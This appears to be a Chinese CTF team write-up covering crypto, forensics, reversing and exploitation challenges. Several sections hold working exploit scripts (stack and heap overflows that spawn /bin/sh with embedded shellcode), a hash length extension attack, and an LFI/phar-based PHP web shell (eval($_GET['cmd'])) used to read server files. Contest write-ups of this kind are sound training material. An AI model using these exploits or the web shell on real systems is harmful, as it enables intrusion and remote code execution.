





## `100` `old-fashion`

基本的密码题，直接扔到http://quipqiup.com/上，没有直接解但有一个解的前半部分很像明文。后来猜测密文不同部分采用的替换方式不同，尝试把密文按分号分成两段分别提交上去，可以直接得到明文，后一段的最后部分就是flag。


## `100` `最好的语言`

在给出的php网址后面加上.bak即可拿到php源代码：

```php
<?php

//TODO: connect to DB 

$id = $_GET['id'];

//TODO: sqli filter

$secretId = 1024;
if($id == $secretId){
    echo 'Invalid id ('.$id.').';
}
else{
    $query = 'SELECT * FROM notes WHERE id = \''.$id.'\';';
    $result = mysql_query($query,$conn);
    $row = mysql_fetch_assoc($result);
 
    echo "notes: ".$row['notes']."</br>";
}
?>
```

于是可以看出我们应该就是要拿到数据库中id为1024的记录，这里我们利用PHP和MySQL的精度不同可以使得`$id == $secretId`的判断为false的同时SQL又能取到id为1024的记录，即我们只要传`id=1.00000000001`（具体多少个0已经忘记，反正多了少了都不行，多试几次就可以了），网站就会返回flag。


## `100` `guess`

简单栈溢出，可以控制程序流程，但难拿到shell，于是可以控制程序走到输出用来识别的图形那个函数，参数用最后输入邮箱的全局变量，就可以任意指定文件名了，用flag当文件名，就可以把flag发回来了

```python
#!/usr/bin/env python
#encoding:utf-8

import zio

TARGET = ('119.254.101.197', 10000)
PUTS_PLT = 0x08048550
LEN_TO_RET = 0x8c + 4 + 12

READ_FILE = 0x08048830
STR_ADDR = 0x0804a100

def judge(s):
    print '====', s[:100], '===='
    if s.startswith('                    .----.'):
        return 'peanuts'
    if s.startswith('quu..__'):
        return 'pikachu'
    if s.startswith('\n                     Tb.'):
        return 'batman'
    if s.startswith('                 .88888888:.'):
        return 'linux'
    if s.startswith('               .=.,'):
        return 'superman'

io = zio.zio(TARGET)
s = io.read_until_timeout()

io.writeline('A' * LEN_TO_RET + zio.l32(READ_FILE) + 'AAAA' + zio.l32(STR_ADDR))
io.read_until('Bad luck!\n')

for i in xrange(5):
    s = io.read_until_timeout()
    io.writeline(judge(s))
    io.read_until('Hey you are so smart!\n')

io.writeline('flag')
s = io.read(4)
print hex(zio.l32(s))
io.read_until_timeout()
```


## `200` `keygen`

ida打开，发现0x400b56是关键部分，   
   
发现是把v16~v23部分与一些常数结合后md5，然后   
     
把MD5字符串这些转成对应字符的ascii码整数字符串，去掉0，   
   
再选第5位后字符与v8~v15比较。   
然后发现要提交10个不同的sn才过。   
   
然后写keygen，随便乱生成v16~v23部分，加上常数部分后md5一下，   
计算出对应的v8~v15后填进sn的对应位，加上-就可以了，   
最后几位sn是废的，直接填1111   

下面的代码有些细节也许不对，偶尔生成的sn有问题，但懒得看了，反正换了几个字符串来生成sn就过了 

```cpp
#include "md5.h"
#include <iostream>

using namespace std;

void calc(const char *st) {
    MD5 a(st);
    const byte *p = a.digest();
    string v42 = "", res="";
    char buff[10];
    for(int k=0; k<=15; k++) {
        sprintf(buff, "%x", p[k]>>4);
        sprintf(buff, "%d", buff[0]);
        if(buff[0]!='0')
            v42+=buff;
        sprintf(buff, "%x", p[k]&0xf);
        sprintf(buff, "%d", buff[0]);
        if(buff[0]!='0')
            v42+=buff;
    }
    int pp=0, k=5;
    while(pp<8) {
        while(v42[pp+k]=='0') k++;
        res+=v42[pp+k];
        pp++;
    }
    printf("%c%c%c%c-%c%c%c%c-%c%c%c%c-%c%c%c%c-1111\n",
        res[3],
        st[0],
        st[8],
        res[7],
        res[6],
        res[4],
        st[4],
        res[5],
        st[2],
        st[6],
        res[1],
        st[10],
        res[0],
        st[12],
        st[14],
        res[2]);
}

int main() {
    calc("1413191117121012");
    calc("2413191117121012");
    calc("3413191117121012");
    calc("4413191117121012");
    calc("5413191117121012");
    calc("7413191117121012");
    calc("8413191117121012");
    calc("1413191117121022");
    calc("1413191117121032");
    calc("1413191117121002");
    return 0;
}
```

得到的 sn:

```
5115‐6415‐1111‐8111‐1111
4215‐1815‐1191‐2117‐1111
4314‐7815‐1191‐1117‐1111
4419‐9819‐1111‐9112‐1111
9519‐8719‐1111‐9112‐1111
5711‐2415‐1191‐1117‐1111
5818‐4515‐1191‐9118‐1111
5119‐9215‐1151‐7121‐1111
1118‐4112‐1151‐8137‐1111
8115‐5111‐1181‐4104‐1111
```


## `200` `ringtone`

用audacity打开ringtone.wav，查看频率分析，如图   

显然高频区有问题，切换到spectrogram模式，如图，   
   
可看到高频区域有一些信息，以0.1+0.4*x秒的模式来读，   
翻译成二进制得0b01100110、0b00110110，   
也即是"f6..."，猜测应该是"flag{...}"，   
多看几个字符后发现每8位结尾都是0，   
于是把每8bit倒序一下，得flag   
`flag{f0r3ns1c_1s_r3al1y_v3ry_ve7y_fun}`

吐槽一下flag太长了..人肉读二进制ascii真蛋疼= =   


## `300` shellman

很明显的堆溢出，修改的时候可以覆盖下一个堆块头，有指向堆的指针，于是可以修改指向堆的指针，从而通过两次读取修改任意地址为任意值。

然后先泄露libc地址，然后计算system和/bin/sh字符串的地址，调用system("/bin/sh")弹shell。

```python
#!/usr/bin/env python
#encoding:utf-8

import zio
from time import sleep

def NOPS(n):
    return 'B' * n

def LEFT_PAD(s, n):
    return NOPS(n - len(s)) + s

def RIGHT_PAD(s, n):
    return s + NOPS(n - len(s))

DELAY = 1
JMP06 = '\xeb\x06'
SHELLCODE = "j\x0bX\x991\xc9Rh//shh/bin\x89\xe3\xcd\x80"

def RAW_WITH_DELAY(s):
    sleep(DELAY)
    return str(s)

def NONE_WITH_DELAY(s):
    sleep(DELAY)
    return ''

TARGET = ('119.254.101.197', 10002)
GOT_PRINTF = 0x601618
GOT_FREE = 0x601600
LIBC_PRINTF = 0x54400
LIBC_SYSTEM = 0x46640
LIBC_BINSH = 0x17CCDB


def list_sc():
    global io
    io.writeline('1')

def new(size, buf=None):
    global io
    io.writelines(['2', str(size)])
    io.write(buf if buf else NOPS(size))

def edit(index, size=None, buf=None):
    global io
    if buf is None:
        io.writelines(['3', str(index), str(size)])
        io.write(NOPS(size))
    else:
        io.writelines(['3', str(index), str(len(buf))])
        io.write(buf)

def delete(index):
    global io
    io.writelines(['4', str(index)])


io = zio.zio(TARGET)

new(0x100) # id = 0
new(0x100) # id = 1
new(0x10) # id = 2
new(0x10) # id = 3
new(0x200) # id = 4

payload = zio.l64(0x100)
payload += zio.l64(0x100)
payload += zio.l64(0x6016C0 + 0x28 - 0x18)
payload += zio.l64(0x6016C0 + 0x28 - 0x10)
payload += zio.l64(0) * 2
edit(1, buf=payload)

payload = NOPS(0x10)
payload += zio.l64(0x20 + 0x100)
payload += zio.l64(0x100)
payload += zio.l64(0) * 4
payload += NOPS(0x100 - 0x30)
payload += zio.l64(0x30)
payload += zio.l64(0x21)
payload += zio.l64(0) * 2
payload += zio.l64(0x20)
payload += zio.l64(0x21)
edit(2, buf=payload)

delete(3)

edit(1, buf=zio.l64(GOT_PRINTF))
list_sc()
io.read_until('SHELLC0DE 0: ')
printf_addr = zio.l64(zio.UNHEX(io.read(16)))

libc_addr = printf_addr - LIBC_PRINTF
system_addr = libc_addr + LIBC_SYSTEM
binsh_addr = libc_addr + LIBC_BINSH

print hex(printf_addr)
print hex(system_addr)
print hex(binsh_addr)

edit(1, buf=zio.l64(GOT_FREE))
edit(0, buf=zio.l64(system_addr))
edit(1, buf=zio.l64(binsh_addr))
delete(0)

io.interact()
```


## `300` `salt`

本题向服务器提交用户名和密码后会组合成字符串并返回带salt的hash值，需要伪装为admin用户并提供hash，一看到这题把salt值放在最前面就联想到hash length extension attack，刚好根据url的特性还能用后面的username值覆盖前面的。不过问题在于返回的值里面缺少了7位，而且同样的字符串不能询问两次，这里同样采用length extension的思路询问扩展后字符串的hash值，然后枚举原字符串hash值中所有的空位及其经过extension后的结果，看是否与第二次返回的hash相符。因为服务器的时限是120s，用python写大概能枚举完1/16，懒得用C重写所以就多跑几次，最后运气好就过了。

```python
#!/usr/bin/env python2

import sys
import time
import socket
import select
import string
import re
import os
from struct import pack
from struct import unpack
import random
from hashpumpy import hashpump
from itertools import permutations

DEFAULT_TIMEOUT = 100
class Connection:
    """Connection abstraction built on top of raw sockets."""

    def __init__(self, remote):
        self._socket = socket.create_connection(remote, DEFAULT_TIMEOUT)

        # Disable kernel TCP buffering
        self._socket.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)

    def __enter__(self):
        return self

    def __exit__(self, type, value, traceback):
        self.disconnect()

    def disconnect(self):
        """Shut down and close the socket."""
        self._socket.shutdown(socket.SHUT_RDWR)
        self._socket.close()

    def recv(self, bufsize=4096, timeout=DEFAULT_TIMEOUT, dontraise=False):
        """Receive data from the remote end."""
        self._socket.settimeout(timeout)
        try:
            return self._socket.recv(bufsize)
        except socket.timeout:
            if dontraise:
                return b''
            else:
                raise

    def recv_until_found(self, keywords, timeout=DEFAULT_TIMEOUT):
        """Receive incoming data until one of the provided keywords is found."""
        buf = b''

        while not any(keywords in buf):
            buf += self.recv(timeout=timeout)

        return buf

    def recv_until_match(self, regex, timeout=DEFAULT_TIMEOUT):
        """Receive incoming data until it matches the given regex."""
        if isinstance(regex, str):
            regex = re.compile(regex)
        buf = ''
        match = None

        while not match:
            buf += self.recv(timeout=timeout)
            match = regex.search(buf)

        return match

    def recvn(self, n, timeout=DEFAULT_TIMEOUT):
        """Receive n lines from the remote end."""
        buf = b''

        while buf.count(b'\n') < n:
            # This maybe isn't great, but it's short and simple...
            buf += self.recv(1, timeout)

        return buf

    def send(self, data):
        """Send all data to the remote end or raise an exception."""
        self._socket.sendall(data)

    def sendline(self, data):
        """Send all data to the remote end or raise an exception. Appends a \\n."""
        self.send(data + b'\n')

    def interact(self):
        """Interact with the remote end."""
        try:
            while True:
                sys.stdout.write(self.recv(timeout=.05, dontraise=True))
                available, _, _ = select.select([sys.stdin], [], [], .05)
                if available:
                    data = sys.stdin.readline()
                    self.send(data)
        except KeyboardInterrupt:
            return

def connect(remote):
	return Connection(remote)


def satisfy(s1,s2):
    for i in range(len(s1)):
        if s1[i]!=s2[i] and s2[i]!='x':
            return False
    return True

SCORE_INITIAL = 100
TARGET = ('119.254.101.197', 10004)
#TARGET = ('127.0.0.1', 4444)
posstr='0123456789abcdef'
with connect(TARGET) as c:
    r = c.recv()
    print r
    r = c.recv()
    print r
    c.send('Y\n')
    print '> Y'
    r = c.recv()
    print r
    c.send('a\n')
    print '> a'
    r = c.recv()
    print r
    c.send('a\n')
    print '> a'
    r = c.recv()
    print r
    h1=r.strip()
    r = c.recv()
    print r
    c.send('Y\n')
    print '> Y'
    r = c.recv()
    print r
    c.send('a\n')
    print '> a'
    r = c.recv()
    print r
    c.send('a\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01`aa')
    print '> a'
    r = c.recv()
    h2=r.strip()
    print r
    r = c.recv()
    print r
    found=False
    hh=h1.split('x')
    c.send('n\n')
    print '> n'
    r = c.recv()
    print r
    if r.find("Question2")==-1:
        exit()
    start_time=time.time()
    '''
    count=0
    for stri in permutations(posstr,7):
        count+=1
        if count%65536==0:
            print count
        res=hashpump(hh[0]+stri[0]+hh[1]+stri[1]+hh[2]+stri[2]+hh[3]+stri[3]+hh[4]+stri[4]+hh[5]+stri[5]+hh[6]+stri[6]+hh[7],'/login?username=a&password=a','aa',16)
        if satisfy(res[0],h2):
            ma_h1=hh[0]+stri[0]+hh[1]+stri[1]+hh[2]+stri[2]+hh[3]+stri[3]+hh[4]+stri[4]+hh[5]+stri[5]+hh[6]+stri[6]+hh[7]
            found=True
            break

    '''

    for ch0 in posstr:
        hh0=h1.replace('x',ch0,1)
        for ch1 in posstr:
            hh1=hh0.replace('x',ch1,1)
            for ch2 in posstr:
                hh2=hh1.replace('x',ch2,1)
                for ch3 in posstr:
                    hh3=hh2.replace('x',ch3,1)
                    print ch0,ch1,ch2,ch3
                    if time.time()-start_time>120:
                        exit()
                    for ch4 in posstr:
                        hh4=hh3.replace('x',ch4,1)
                        for ch5 in posstr:
                            hh5=hh4.replace('x',ch5,1)
                            for ch6 in posstr:
                                hh6=hh5.replace('x',ch6,1)
                                res=hashpump(hh6,'/login?username=a&password=a','aa',16)
                                if satisfy(res[0],h2):
                                    ma_h1=hh6
                                    found=True
                                    break
                            if found:
                                break
                        if found:
                            break
                    if found:
                        break
                if found:
                    break
            if found:
                break
        if found:
            break

    print 'found:'+ma_h1
    res=hashpump(ma_h1,'/login?username=a&password=a','&username=admin&password=aaaaaa',16)
    c.send(res[1])
    print '> '+res[1]
    r = c.recv()
    print r
    c.send(res[0])
    print '> '+res[0]
    r = c.recv()
    print r
    r = c.recv()
    print r
```


## `100` `flag-checker`

发现输入字符应为47个字符，并满足等式。

发现等式可以递进求解。即知道 a,b 利用含a,b,c的等式求出c，以此类推。

```python
s = '<input>'
s = raw.split('&&')
import re
def find(i):
    for j in s:
        r = re.findall(r'a\[(\d+)\]',j)
        try:
            if max(map(int,r))==i:
                return j
        except:
            pass

a =[ ]

for i in range(0,47):
    a.append(0)
    res = find(i)
    for j in range(256):
        a[i] = j
        if eval(res) ==True:
            break

print "".join(map(chr,a))
```


## `300` `broken`

### 初步观察

给了一个img，大小约为1.44MB，大概是软盘吧。题目就说了启动一下会显示I'm broken。扔进IDA看一下MBR发现果然就是输出I'm broken就没了。再仔细一看发现MBR里的分区表也没了，嗯……

### Flooooooooppy

在WinHex中观察一下，可以发现0x200处开始有两段大小为0x1200的完全一样的数据，猜测是FAT-12分区的FAT。再往后可以找到一个文件目录表。其中可以发现有一个文件叫flag。
然而我们不知道这个分区的cluster size之类的信息。

### I'm glad strings does not behave like ldd

```
$ strings -n10 broken.img

<....>

" id="W5M0MpCehiHzreSzNTczkc9d"?> <x:xmpmeta xmlns:x="adobe:ns:meta/" x:xmptk=

<....>

```

看起来有个png？WinHex手动找过去发现PNG header被干掉了，手动补上。有理由相信这个就是那个叫flag的文件。
此时我们知道了这个文件开始的偏移，结合文件目录表里的记录的开始簇，就可以大概推算出数据区开始的位置和每个cluster的大小了。

有了这些信息，已经足以提取出这个文件了。

```
import struct

img = open('broken.img', 'rb').read()

def readFAT12(data):
	result = []
	for i in xrange(0, len(data), 3):
		item, = struct.unpack('<I', data[i:i+3]+'\x00')
		result.append(item & 0xFFF)
		result.append(item >> 12)
	return result

FAT = readFAT12(img[0x200:0x1400])

print 'File count:', FAT.count(0xFFF) - 1


name = 'FLAG.png'
start_cluster = 0x7D1
filesize = 462299


'''
name = 'VUMVCRMN'
start_cluster = 0x7BF
filesize = 307724
'''

'''
name = 'SUUCJGMD'
start_cluster = 0xA98
filesize = 167687
'''

'''
name = 'GHTNOWIJ'
start_cluster = 0xAB4
filesize = 208896
'''

'''
name = 'WHXBTGVY'
start_cluster = 0xA51
filesize = 190442
'''

cluster_sectors = 1
sector_size = 512
cur = start_cluster
png = ''
while cur < 0xFF8:
	print cur
	offset = 0x4200 + (cur - 2) * cluster_sectors * sector_size
	png += img[offset:offset+sector_size*cluster_sectors]
	cur = FAT[cur]

open(name,'wb').write(png[:filesize])
```

### 没有梦想 何以远方

远_______的方啊！

然而图片上没有flag，提取出了剩下的文件，看起来都是胡乱填充的辣鸡数据，确认没有更多信息之后，只好重新把注意力转回这张图片上了。

手动解压IDAT段可以发现，解压出来的字节数比这个800*400的文件该有的要多……然而附加数据没看出什么特别之处啊……那……难道也是图片数据？高度不对？把高度改大试试？

然后就发现flag啦。


## `200` `俳句自动打分系统`

容易发现url有形如`/index.php?page=[upload|view]`   
发现LFI，用php filter来获取源代码

```
/index.php?page=php://filter/read=convert.base64-encode/resource=index
/index.php?page=php://filter/read=convert.base64-encode/resource=main
/index.php?page=php://filter/read=convert.base64-encode/resource=view
/index.php?page=php://filter/read=convert.base64-encode/resource=upload
```

发现有upload\_paiju文件夹，还有index.php里有   

```
$inc=sprintf("%s.php", $p);
include($inc);
```

用%00无法截断".php"无法直接include .txt，于是用phar来绕过这个：   
制作一个名为1.txt的zip里面放a.php    
a.php: `<?php eval($_GET['cmd']);?>`
上传1.txt，用   
`/index.php?page=phar://upload_paiju/xxxxxxx.txt/a`
来成功include，然后是各种列目录：   
`/index.php?cmd=print_r(scandir('/tmp'));&page=phar://./upload_paiju/xxxxxxx.txt/a`

tmp目录，html目录(都是open\_basedir)都找遍也没发现flag，    
然后是队友发现藏在/srv(另外一open\_basedir下)，有个FLAG文件...    
那就`/index.php?cmd=print_r(file_get_contents('/srv/FLAG'));&page=phar://./upload_paiju/xxxxxxx.txt/a`得flag


## `400` `droidmaster`

### 初步观察

给了一个apk，说“运行不了的话说明你的手机不够新”，做安卓题的时候我从来没指望过我手机够新，以前是这样，现在大概也是。

看一看apk里包着的文件结构，会发现什么保护也没有，有用JNI调用native code，应该是在里面做的flag验证。

然后发现这.so的架构是arm64-v8a。难怪说手机不够新就运行不了。

### classes.dex

dex还是要看一下的，直接丢进JEB就可以了。逻辑十分简单，调用libcrackme.so中的load，传入了一个非常长的神秘字符串，然后点验证的时候把输入框里的文本传给libcrackme.so!verify。

### 神秘字符串

我们观察一下这个神秘字符串。它有10965字节长，包含['0', '1', '2', '3', '4', '5', '6', '7']这8种字符。
有两个字符特别少，'0'和'6'，分别出现了2次和6次。次之的两个比较少的是'2'和'5'，剩下的都很多并且连着出现。

嗯…………好像有点像某种东西呢，参加强脑洞杯的人脑洞都这么厉害，会不会有人脑洞大直接猜出来了的啊。好怕怕呜呜。

### libcrackme.so

可惜我脑洞比较小，猜不出来。只能乖乖去看AArch64汇编了。以下是当时的笔记。

verify执行的是一个brainfuck解释器，cell size为16位，opcode:

1: W3++
2: W3--
3: [W3]++
4: [W3]--
5: 输出[W3]那一字节
6: [W3] = 输入的下一个字节
7: 零跳
8: 非零跳

也就是分别对应了><+-.,[]
通过条件为输出了一个'1'。

load是把输入转化为方便执行的字节码（主要是找了一下匹配的括号，别的什么都没干.....）
另外load的时候有一层映射，具体来说：
i : o : bf
0:5:.
1:4:-
2:7:[
3:3:+
4:1:>
5:8:]
6:6:,
7:2:<

### brainfuck

所以flag是用一段brainfuck代码验证的了。作为一个用brainfuck刷过SPOJ(......)的人，可以肯定10KB不到的brainfuck代码没法实现什么复杂的操作，有理由相信它就是做了一下比较而已。

然而人肉逆向这东西未免太过蛋疼了，还好，brainfuck这个东西出现以来已经有了相当长的时间，翻一翻[esolangs.org上的介绍](https://esolangs.org/wiki/Brainfuck)，可以找到[这么一个东西](https://code.google.com/p/esotope-bfc/)。一个号称进行了若干神秘“优化”的bf2c compiler。

尝试一下可以发现它输出了572行的C代码，到这里呢，人肉看说不定已经可以看出来了，但是好麻烦啊（哈欠

### 我们不用很麻烦很累也可以获得弗拉格

再观察一下，发现代码里的分支数量十分的少。那么为什么不把它直接丢给[KLEE](https://klee.github.io/)呢？
对代码稍作修改，去掉输入输出的部分，将6个输入的char都标记为symbolic的，输出方面，手动跟踪一下可以发现输出'0'的时候在下面触发，那么我们假装输出'1'的时候是在上面那里输出的好了。

具体改动如下：

```
2d1
< #include <klee/klee.h>
4a4,5
> #define GETC() (fflush(stdout), fgetc(stdin))
> #define PUTC(c) fputc(c, stdout)
7,19c8,13
<       char a,b,c,d,e,f;
<       klee_make_symbolic(&a, sizeof(a), "a");
<       klee_make_symbolic(&b, sizeof(b), "b");
<       klee_make_symbolic(&c, sizeof(c), "c");
<       klee_make_symbolic(&d, sizeof(d), "d");
<       klee_make_symbolic(&e, sizeof(e), "e");
<       klee_make_symbolic(&f, sizeof(f), "f");
<       p[0] = a;
<       p[1] = b;
<       p[2] = c;
<       p[3] = d;
<       p[4] = e;
<       p[5] = f;
---
>       p[0] = GETC();
>       p[1] = GETC();
>       p[2] = GETC();
>       p[3] = GETC();
>       p[4] = GETC();
>       p[5] = GETC();
560,561c554
<                       putchar(p[194]);
<                       klee_assert(0);
---
>                       PUTC(p[194]);
573c566
<                       putchar(p[7]);
---
>                       PUTC(p[7]);

```

[然后交给KLEE跑就可以啦](https://asciinema.org/a/b1nhhdjrtit0vf8wx0eusbuy9)。

最终flag即为`1mfLag`，然而一开始可能是因为放错flag了吧，并不接受这个flag。发邮件问之后被要求重新提交 :<


## `200` `repartition`

两个文件都特别小，autopsy提取未分配空间，binwalk在其中一个的最后发现了rar，因为文件特别小直接内联了和record写在一起的，复制出来就是完整的，附近翻一翻还可以找到secretpass.txt ”梅花香自苦寒来“。


## `200` `urldecoder`

程序中读入可以读入\x00字符，并且长度不限制，但是中途会有个strlen的判断去检查输入的长度，于是可以用\x00使得strlen的判断过掉，然后后面解析的时候，为了防止\x00导致解析中断，可以将\x00放在%后，这样就会被直接跳过，从而实现栈溢出。

然后控制程序输出GOT表后重新开始，再来一次溢出，根据算出的system和/bin/sh的地址弹shell。

```python
#!/usr/bin/env python
#encoding:utf-8

import zio
from time import sleep

def NOPS(n):
    return 'A' * n

def LEFT_PAD(s, n):
    return NOPS(n - len(s)) + s

def RIGHT_PAD(s, n):
    return s + NOPS(n - len(s))

DELAY = 1
JMP06 = '\xeb\x06'
SHELLCODE = "j\x0bX\x991\xc9Rh//shh/bin\x89\xe3\xcd\x80"

def RAW_WITH_DELAY(s):
    sleep(DELAY)
    return str(s)

def NONE_WITH_DELAY(s):
    sleep(DELAY)
    return ''


TARGET = ('119.254.101.197', 10001)
LEN_TO_RET = 0x9c
PUTS_PLT = 0x08048530
PUTS_GOT = 0x08049de8
RESTART_ADDR = 0x08048590
PUTS_LIBC = 0x00065650
SYSTEM_LIBC = 0x00040190
BINSH_LIBC = 0x00160A24


io = zio.zio(TARGET)
io.read_until_timeout()
payload = 'http://%\x001'
payload += NOPS(LEN_TO_RET - 8)
payload += zio.l32(PUTS_PLT) + zio.l32(RESTART_ADDR) + zio.l32(PUTS_GOT)
io.writeline(payload)
io.read_until('Decode Result:')
io.readline()

puts_addr = zio.l32(io.read(4))
print hex(puts_addr)
libc_addr = puts_addr - PUTS_LIBC
system_addr = libc_addr + SYSTEM_LIBC
binsh_addr = libc_addr + BINSH_LIBC

io.read_until_timeout()
payload = 'http://%\x001'****
payload += NOPS(LEN_TO_RET - 8)
payload += zio.l32(system_addr) + zio.l32(RESTART_ADDR) + zio.l32(binsh_addr)
io.writeline(payload)

io.interact()
```


## `100` `nesting doll`
Quine-relay的题，用的是[https://github.com/mame/quine-relay/tree/50](https://github.com/mame/quine-relay/tree/50)的版本部上环境后，跑出追后diff 出是一段ruby的join代码，得到flag


## `300` `old fashion 2`

这题除了替换外还多了个移位操作，不过后来放出提示说移位值为7，那就稍微方便一点了。

在过去的CTF中看到过https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/twenty这道题，其中的cipher_solve采用随机置换生成替换表，并用英文字母的4元组对解密后的文本进行评分的方式破解，于是就把其中的解密方式修改了一下。因为原程序的4元组中只包含字母，而本题还有6个其它符号，一开始尝试当4元组中含有其它符号时返回一个默认评分，发现效果不好，后来干脆在评分前把非字母符号都删掉，结果很快就出结果了，末尾的随机字符串就是flag。

注意原始程序给的4元组都是大写字母，而本题中都是小写，所以我们得到结果后还要将其转化为小写。

代码见附件中的`old-fashion-2.zip`
